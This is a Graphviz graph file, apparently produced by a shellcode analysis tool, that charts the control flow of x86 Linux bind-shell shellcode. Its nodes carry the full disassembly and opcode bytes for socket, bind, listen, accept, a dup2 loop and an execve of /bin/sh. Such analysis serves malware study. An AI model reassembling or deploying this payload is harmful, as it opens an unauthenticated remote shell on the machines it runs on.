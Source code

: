 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x8b2b6c0" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 89E1                            mov ecx,esp\l0x0041700b B066                            mov al,0x66\l"]
	 "0x8b28898" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700d socket\l"]
	 "0x8b279e8" [shape=box, label = "0x0041700f 5B                              pop ebx\l0x00417010 5E                              pop esi\l0x00417011 52                              push edx\l0x00417012 680200115C                      push dword 0x5c110002\l0x00417017 6A10                            push byte 0x10\l0x00417019 51                              push ecx\l0x0041701a 50                              push eax\l0x0041701b 89E1                            mov ecx,esp\l0x0041701d 6A66                            push byte 0x66\l0x0041701f 58                              pop eax\l"]
	 "0x8b2d930" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417020 bind\l"]
	 "0x8b2d9f8" [shape=box, label = "0x00417022 894104                          mov [ecx+0x4],eax\l0x00417025 B304                            mov bl,0x4\l0x00417027 B066                            mov al,0x66\l"]
	 "0x8b2ce20" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417029 listen\l"]
	 "0x8b2cef8" [shape=box, label = "0x0041702b 43                              inc ebx\l0x0041702c B066                            mov al,0x66\l"]
	 "0x8b2ca50" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702e accept\l"]
	 "0x8b2cb28" [shape=box, label = "0x00417030 93                              xchg eax,ebx\l0x00417031 59                              pop ecx\l"]
	 "0x8b2c658" [shape=box, label = "0x00417032 6A3F                            push byte 0x3f\l"]
	 "0x8b2c748" [shape=box, label = "0x00417034 58                              pop eax\l"]
	 "0x8b2c848" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417035 dup2\l"]
	 "0x8b2c258" [shape=box, label = "0x00417037 49                              dec ecx\l"]
	 "0x8b2c358" [shape=box, label = "0x00417038 79F8                            jns 0xfffffffa\l"]
	 "0x8b2c458" [shape=box, label = "0x0041703a 682F2F7368                      push dword 0x68732f2f\l0x0041703f 682F62696E                      push dword 0x6e69622f\l0x00417044 89E3                            mov ebx,esp\l0x00417046 50                              push eax\l0x00417047 53                              push ebx\l0x00417048 89E1                            mov ecx,esp\l0x0041704a B00B                            mov al,0xb\l"]
	 "0x8b2d388" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041704c execve\l"]
	 "0x8b2b6c0" -> "0x8b28898" [style = bold ]
	 "0x8b28898" -> "0x8b279e8" [style = bold ]
	 "0x8b279e8" -> "0x8b2d930" [style = bold ]
	 "0x8b2d930" -> "0x8b2d9f8" [style = bold ]
	 "0x8b2d9f8" -> "0x8b2ce20" [style = bold ]
	 "0x8b2ce20" -> "0x8b2cef8" [style = bold ]
	 "0x8b2cef8" -> "0x8b2ca50" [style = bold ]
	 "0x8b2ca50" -> "0x8b2cb28" [style = bold ]
	 "0x8b2cb28" -> "0x8b2c658" [style = bold ]
	 "0x8b2c658" -> "0x8b2c748" [style = bold, color=orange ]
	 "0x8b2c748" -> "0x8b2c848" [style = bold, color=orange ]
	 "0x8b2c848" -> "0x8b2c258" [style = bold, color=orange ]
	 "0x8b2c258" -> "0x8b2c358" [style = bold, color=orange ]
	 "0x8b2c358" -> "0x8b2c658" [style = bold, color=orange ]
	 "0x8b2c358" -> "0x8b2c458" [style = bold ]
	 "0x8b2c458" -> "0x8b2d388" [style = bold ]
}